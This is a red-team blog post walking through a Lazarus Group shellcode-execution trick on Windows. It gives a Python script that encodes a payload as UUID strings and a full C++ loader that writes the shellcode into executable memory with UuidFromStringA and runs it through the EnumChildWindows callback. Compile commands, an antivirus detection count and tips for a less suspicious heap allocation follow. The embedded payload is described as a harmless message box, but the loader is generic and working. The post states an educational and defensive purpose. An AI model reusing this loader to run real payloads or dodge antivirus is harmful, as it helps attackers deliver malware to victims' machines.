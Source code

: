 ```yaml
---
title:  "Malware development tricks. Run shellcode like a Lazarus Group. C++ example."
date:   2022-07-21 03:00:00 +0300
header:
  teaser: "/assets/images/63/2022-07-22_09-57.png"
categories:
  - malware
tags:
  - injection
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/63/2022-07-22_09-57.png){:class="img-responsive"}    

This article is the result of my own research into another interesting trick: run payload via `UuidFromStringA` and for example `EnumChildWindows`.    

### UuidFromStringA

This function converts a string to UUID:

```cpp
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```
Without using standard functions like `memcpy` or `WriteProcessMemory`, this function can be used to decode data as well as write it to memory.     

The shellcode execution technique is comprised of the subsequent steps:

- Allocate memory via `VirtualAlloc`    
- Use `UuidFromStringA` to convert UUID strings their binary format and store in memory    
- Use `EnumChildWindows` (or `EnumDesktopsA` or another candidate) to execute the payload previously loaded into memory      

### practical example

Let's go to look at a practical example. The trick is pretty simple, similar to [previous](/tutorial/2022/06/27/malware-injection-20.html) tricks, but with some changes specific for Lazarus Group.     

First of all, we need script to convert our desired payload to UUID valid strings. Something like this (`payload_uuid.py`):

```python
#!usr/bin/python3

from uuid import UUID
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p','--payload', required = True, help = "payload: binary file")
args = vars(parser.parse_args())
pbin = args['payload']

with open(pbin, "rb") as f:
    # read in 16 bytes from our input payload
    chunk = f.read(16)
    while chunk:
        # if the chunk is less than 16 bytes then we pad the difference (x90)
        if len(chunk) < 16:
            padding = 16 - len(chunk)
            chunk = chunk + (b"\x90" * padding)
        print(UUID(bytes_le=chunk))
        chunk = f.read(16)
```        

As usually, I will use my `meow-meow` messagebox payload: `meow.bin`.

Run:

```bash
python3 payload_uuid.py -p meow.bin
```
![injection](/assets/images/63/2022-07-22_10-46.png){:class="img-responsive"}    

Since we already have our payload in UUID format, we are able to construct our proof-of-concept code to test the following:     

```cpp
#include <windows.h>
#include <rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
  "e48148fc-fff0-ffff-e8d0-000000415141",
  "56515250-3148-65d2-488b-52603e488b52",
  "8b483e18-2052-483e-8b72-503e480fb74a",
  "c9314d4a-3148-acc0-3c61-7c022c2041c1",
  "01410dc9-e2c1-52ed-4151-3e488b52203e",
  "483c428b-d001-8b3e-8088-0000004885c0",
  "01486f74-50d0-8b3e-4818-3e448b402049",
  "5ce3d001-ff48-3ec9-418b-34884801d64d",
  "3148c931-acc0-c141-c90d-4101c138e075",
  "034c3ef1-244c-4508-39d1-75d6583e448b",
  "01492440-66d0-413e-8b0c-483e448b401c",
  "3ed00149-8b41-8804-4801-d0415841585e",
  "58415a59-5941-5a41-4883-ec204152ffe0",
  "5a594158-483e-128b-e949-ffffff5d49c7",
  "000000c1-3e00-8d48-95fe-0000003e4c8d",
  "00010985-4800-c931-41ba-45835607ffd5",
  "41c93148-f0ba-a2b5-56ff-d54d656f772d",
  "776f656d-0021-5e3d-2e2e-5e3d00909090"
};

int main() {
  int elems = sizeof(uuids) / sizeof(uuids[0]);
  VOID* mem = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
  DWORD_PTR hptr = (DWORD_PTR)mem;
  for (int i = 0; i < elems; i++) {
    // printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
    // printf("%s\n", *(uuids+i));
    RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
    if (status != RPC_S_OK) {
      printf("[-] UUID convert error\n");
      CloseHandle(mem);
      return -1;
    }
     hptr += 16;
  }

  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  // EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  CloseHandle(mem);
  return 0;
}
```

Pay attention to the function `UuidFromStringA`. As I wrote earlier, invoking this API with a memory pointer instead of a UUID pointer will result in the binary representation of the given UUID being stored in memory.     

By chaining many API requests and giving properly designed UUIDs, it is possible to load the necessary content (payload) into the chosen memory region.   

And then, as a pointer to the callback function in `EnumChildWindows` we specify this memory region:   

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

or another function `EnumDesktopsA`:    

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

### demo

Let's go to see everything in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lrpcrt4
```

![injection](/assets/images/63/2022-07-22_10-56.png){:class="img-responsive"}    

and run in our victim's machine:    

```powershell
.\hack.exe
```

![injection](/assets/images/63/2022-07-22_10-58.png){:class="img-responsive"}    

To make sure that our payload was really launched, you can slightly change a piece of code:

```cpp
printf("[*] Hexdump: ");
for (int i = 0; i < elems*16; i++) {
  printf("%02X ", ((unsigned char*)mem)[i]);
}
```

Then compile again:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lrpcrt4
```

![injection](/assets/images/63/2022-07-22_11-07.png){:class="img-responsive"}    

and run again:   

```powershell
.\hack.exe
```

![injection](/assets/images/63/2022-07-22_11-09.png){:class="img-responsive"}    

As you can see, everything is work perfectly :)    

Let's go to upload `hack.exe` to VirusTotal:    

![injection](/assets/images/63/2022-07-22_14-59.png){:class="img-responsive"}    

**So, 6 of 68 AV engines detect our file as malicious.**    

[https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection](https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection)    

There is a caveat. Lazarus Group uses functions `HeapCreate` and `HeapAlloc` instead:    

```cpp
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
void* mem = HeapAlloc(hc, 0, 0x100000);
```

`HeapAlloc` is a frequently used API call for allocating heap memory.    
This API, as far as I can tell, allows you to allocate specified amounts of memory on the heap, as opposed to the memory blocks obtained using the `VirtualAlloc` API.
However, according to the documentation, `HeapAlloc` can still call `VirtualAlloc` if necessary.    

It also has the advantage that this API is not so suspicious.    

Also Lazarus Group uses function `EnumSystemLocalesA` for execute payload.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[nccgroup - RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)      
[Lazarus Group](https://attack.mitre.org/groups/G0032/)    
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-07-21-malware-tricks-22)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
